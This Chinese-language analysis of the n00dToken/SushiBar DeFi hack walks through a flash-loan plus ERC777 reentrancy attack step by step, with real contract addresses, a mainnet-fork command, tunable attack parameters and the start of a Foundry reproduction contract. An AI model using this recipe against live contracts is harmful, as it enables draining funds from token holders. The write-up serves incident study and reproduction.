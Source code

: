 1. 调用[[ERC1820Registry]](https://etherscan.io/address/0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24).setInterfaceImplementer，这样在ERC777转账的钩子函数中会调用到注册的实现函数。
2. [[UniswapV2Pair]](https://etherscan.io/address/0x5476DB8B72337d44A6724277083b1a927c82a389).getReserves()。计算出pair合约中的n00dToken的储备量。
3. **n00dToke.approve(SushiBar,10073648982705866572782000)。根据 2 中计算出的**n00dToken 的储备量来进行授权，授权的数量为储备量\*500
4. 进行 uniswap 中的闪电贷功能。调用 uniswapV2Pair 的 swap。贷出 pair 合约中的所有的 n00dToken，使用 data 使用 0x333，会触发回调 hackCon 合约的 uniswapV2Call 函数
5. hackCon 合约的 uniswapV2Call 函数
   1. [[SushiBar]](https://etherscan.io/address/0x3561081260186E69369E6C32F280836554292E08).enter(_amount=5036824491352933286391)💩 为什么 enter 这个数字？比如第一次调用 sushiBar.enter 时，贷出的 n00dToken 数量为：20147297965411733145563，却只使用了 5036824491352933286391？因为 enter 时只拿出了 1/4 的进入 sushiBar.enter 那为什么拿 1/4 进入？
      另外的 2/3 用于钩子函数中 tokensToSend 中，在重入时的使用。每次重入执行 3 次 enter，每次使用 1/3 的贷款 enter 函数的主要操作主要有两个：1.mint 出凭证。2.从调用者获得 noodToken 的输入。这两个是按从 1 到 2 的顺序执行的。在执行动作 2 时会调用到 n00dToken 的 transferFrom，因为 n00dToken 是 ERC777，所以会调用到钩子函数，对应着 hackCon 的 tokensToSend 函数，而这个函数是黑客合约中自己写的代码，黑客在这个函数中又调用了 SushiBar 的 enter 函数。至此，这一步的调用过程从 enter 来，最终又调用 enter，一个循环就此产生，也就是重入攻击。在这里执行 3 次后，得到一大笔凭证。
   2. [[SushiBar]](https://etherscan.io/address/0x3561081260186E69369E6C32F280836554292E08).leave，会将凭证毁掉，取回n00dToken
   3. 将取回 n00dToken 归还闪电贷的本息。
6. 将此时的所有的 n00dToken 在 uniswap 中兑换成 WETH。
7. 循环执行上面的 2-5 步，重复 4 次。最终得到 20.82 个 WETH.

# 漏洞复现

参考代码(可联系获取)：

```
anvil --fork-url https://rpc.ankr.com/eth --fork-block-number 15826379
```

代码中有 3 要要注意的变量，这三个变量根据重入漏洞和池子 reserve 的不同，追求利益最大化时要动态调整。

- uint ATTACK_COUNT = 4; // 记录共进行了几次攻击
- uint RECOUNT_PER_ATTACK = 2; // 记录每次攻击中执行几次重入操作
- enterAmount //在闪电贷调用函数中 uniswapV2Call，将贷入的资金分了几份，表示每份资金的数量，黑客攻击过程中使用的是 4,因为共执行了 3 次 enter,需要用到 3 份资金,这里就比 3 多分了一份。

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.13;

import "forge-std/Test.sol";
import "../src/interface.sol";
import "../src/SushiBar.sol";
import "forge-std/console2.sol";
import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract ContractTest is Test{
    using SafeMath for uint256;
    address constant N00DADDR = 0x2321537fd8EF4644BacDCEec54E5F35bf44311fA;
    address constant BARADDR = 0x3561081260186E69369E6C32F280836554292E08;

    IERC777 n00d = IERC777(N00DADDR);
    sushiBar bar = sushiBar(BARADDR);
    Uni_Pair_V2 pair = Uni_Pair_V2(0x5476DB8B72337d44A6724277083b1a927c82a389);
    IERC20 WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    ERC1820Registry registry = ERC1820Registry(0x1820a4B7618BdE71Dce8cdc73aAB6C95905faD24);

    CheatCodes cheats = CheatCodes(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D);

    uint enterAmount = 0;
    uint ATTACK_COUNT = 4; //　记录共进行了几次攻击
    uint RECOUNT_PER_ATTACK = 2; //　记录每次攻击中执行几次重入操作
    uint curCountPerAttack = 0;
    uint n00dReserve;
```